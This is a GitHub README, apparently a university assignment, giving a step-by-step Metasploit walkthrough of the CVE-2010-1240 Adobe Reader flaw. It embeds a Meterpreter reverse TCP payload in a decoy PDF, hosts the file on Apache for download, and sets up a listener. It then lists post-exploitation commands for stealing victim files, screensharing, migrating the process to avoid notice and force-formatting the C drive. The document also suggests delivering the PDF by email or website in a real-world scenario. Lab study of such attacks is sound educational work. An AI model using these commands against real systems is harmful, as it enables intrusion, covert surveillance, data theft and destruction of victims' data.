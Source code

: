 # Embedded Backdoor Connection via PDF Files :smiling_imp:
***brought to you by***   ![](https://shields.io/badge/Bawang-Ranger-green?style=for-the-badge&logo=CodeIgniter&logoColor=orange)

~~Please put in materials (e.g. Adobe Reader 8.1.2, normal PDF file, evil.pdf, report, Presentation Slides) that ease others to git clone the repo.~~

## Introduction
This demonstration video shows how we can control the victim's device by sending the innocent-looking PDF file to the target which actually consists of embedded payload. The exploit was made public as CVE-2010-1240.

As soon as the PDF is opened in Adobe Reader, the users who are being tricked by us to agree on the security pop-ups will let us gain meterpreter session connected to their devices via reverse TCP connection. Till that time, all their data and what they're doing right now are under our surveillance. 

![Hehe~Boi](https://media.giphy.com/media/dPEJxh06y4OTC/giphy.gif)

## List of Software/Tools
- Metasploit 
- [Adobe Reader <= 8.1.2](http://www.oldversion.com/windows/acrobat-reader/) 

## Environment
- **Attacker Machine**: Kali Linux version 2021.1   ![Kali Linux](https://img.shields.io/badge/Kali%20Linux-%3E=%202021.1-005ab3?style=for-the-badge&logo=kali-linux&logoColor=white)
- **Target OS**: Windows 10 (x86) or Windows 7 (x86)   [![Windows 7 or 10](https://img.shields.io/badge/Windows-7%20%7C%2010%20-0078D6?style=for-the-badge&logo=windows&logoColor=white)](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
- **Target Software**: Adobe Reader 8.1.2   [![Adobe Reader](https://img.shields.io/badge/Adobe%20Reader-%3C=%208.1.2-red?style=for-the-badge&logo=adobe-acrobat-reader&logoColor=white)](http://www.oldversion.com/windows/acrobat-reader-8-1-2)  

## Detailed Steps
First, we launch the MSFconsole which provides command line interface for us to access the Metasploit framework.  
```
msfconsole
```

Then, search for exploit that matches our target Windows platform and Adobe PDF Reader, where it will display a whole list of exploits that can used to hijack into the victim’s Windows machine and exploits the Adobe PDF Reader vulnerabilities. 
```
search type:exploit platform:windows adobe pdf
```

In this exploitation, we select and use the module "adobe_pdf_embedded_exe" by using the command below to achieve the target of hijacking the victim. 
```
use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

We can also check the information of the exploit by using the “info” command as shown below:
```
info
```

Then, we set the payload to use reverse TCP connection. We also use the Meterpreter that provides an interactive shell which ease us to use all kinds of functions by insert and execute the code to explore the victim’s machine. 
```
set payload windows/meterpreter/reverse_tcp
```

Then, we will set for the listening host and port. For LHOST, we need to put in the attacker machine’s IP address, which in this case is our Kali machine’s IP address(10.0.2.4)*. 
- **`*p.s.`** 
  - *You have to use your own Kali machine's IP* 
  - *You can use a different port number*

Meanwhile for LPORT, it is up to us to set a port number which is not commonly used. 
```
# to check Kali machine’s IP address
ifconfig

set LHOST *10.0.2.4*
set LPORT 5665
```

Then, we will set the input file for the base of the PDF with INFILENAME* flag. Next, we will set the filename to something that will attract victim’s interest to open the malicious PDF file. 
- **`*p.s.`** 
  - *You have to make sure your PDF file path*
  - *You can use a different filename*  
```
set INFILENAME '/home/kali/Documents/WIC3004Assignment.pdf'
set FILENAME 'Bawang_Ranger_WIC3004Report.pdf'
```

We can view our options again before we enter “exploit” command to generate the payload together with PDF. 
```
# Then we can show the info or options by
show info | show options

exploit
```

Once we done generated the PDF file, we will move the file to /var/www/html which is the directory of our Kali machine’s to host the web application server for our victim to download the PDF file later.
- **`Note:`** 
  - *If you have set a different filename, make sure you copy the right path instead!*  
```
sudo mv /home/kali/.msf4/local/Bawang_Ranger_WIC3004Report.pdf /var/www/html
```

Then, to set up our listener, we will make use of "exploit/multi/handler". Again, we will set the payload, LHOST, LPORT aligned with what we have defined in generating the malicious PDF file. Then we will run the payload.
- **`Note:`** 
  - *LHOST: Please note for your own Kali machine's IP address*
  - *LPORT: If you have set a different port number, make sure you type in the number correctly* 
  - `show info` or `show options` is optional command to run.
     - Run it is just for verifying what you have set just now
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.0.2.4
set LPORT 5665
[show info | show options]
run
```

In another terminal, we check the status of the Apache server to ensure it is running to host our PDF file in /var/www/html for the victim to download the file.
```
service apache2 status

# If it is inactive, start the service
service apache2 start
```
---
On the Windows machine, open any browser such as Chrome browser and type in our Kali's IP (10.0.2.4)* to access the web application server of the Kali machine.

**`*Note:`** *Please note for your own Kali machine's IP address*

Then, mimic an user save the intended PDF file.

Once the file is opened by victim in Adobe Reader 8.1.2 with accepting to the prompt security messages, we then can observe on our Kali machine that we have a new session connected via reverse TCP connection.

**In real word scenario,** we will set up a website with the embedded-payload PDF to let victim download or attach the file via email.

---

Then, we can remotely access to the victim’s machine and then further performing more malicious behaviours that we wanted in the meterpreter session.

### To show a list of things that we can do
```
help
```
### List current directory 
``` 
pwd
```
### List the file on that directory
```
ls
```
### Download folder or file from victim machine
For example, there's a file named `password.txt`, we can issue `download password.txt` command
```
download [folder name | filename with extension]
```
### Create file on victim machine
Of course, we can write malicious script (implanting backdoor) to keep us connecting to the Windows machine if we're really evil! :skull:
```
   # Boot command prompt at background
   execute -f cmd.exe -H -i
   
   # Create file on Windows
   echo "You have been hacked" > hack.txt    
```
### Interact with Windows 
```
   #open the txt file we have just created
   hack.txt

   # Take screenshot
   screenshot
   
   # Watch the remote user in real time
   screenshare
```
### Additional
However, the attacker can reduce the suspicion by migrating the meterpreter process to a different one by using the migrate module in the meterpreter session.
```
meterpreter> run post/windows/manage/migrate
```
Here, it will automatically spawn a new process in the victim’s machine to migrate itself to. The victim would then be able to delete the infected PDF file, completely unaware that the process has already went elsewhere.

The attacker can further create malicious script on the target machine using command prompt (cmd) or PowerShell which is able to bring down the whole operating system to not function properly. 
```
meterpreter> shell 
```
```
# Start the Windows PowerShell
powershell

#Powershell command to forcefully format the C drive clean.
New-Partition -DiskNumber 1 -UseMaximumSize -AssignDriveLetter C| Format-Volume -DriveLetter C -FileSystemLabel "New"-FileSystem NTFS -Full -Force -Confirm:$false
```

## Demonstration Video

[![Demo](https://i.imgur.com/FG8Ftvg.jpg)](https://youtu.be/TJkEAZb7-so "[Demonstration] Embedded Backdoor Connection via PDF Files | Bawang Ranger")


[//]: # (https://shields.io/badge/Chan-%20Jia%20Liang-green?style=for-the-badge&logo=CodeIgniter&logoColor=orange)
[//]: # (https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white)
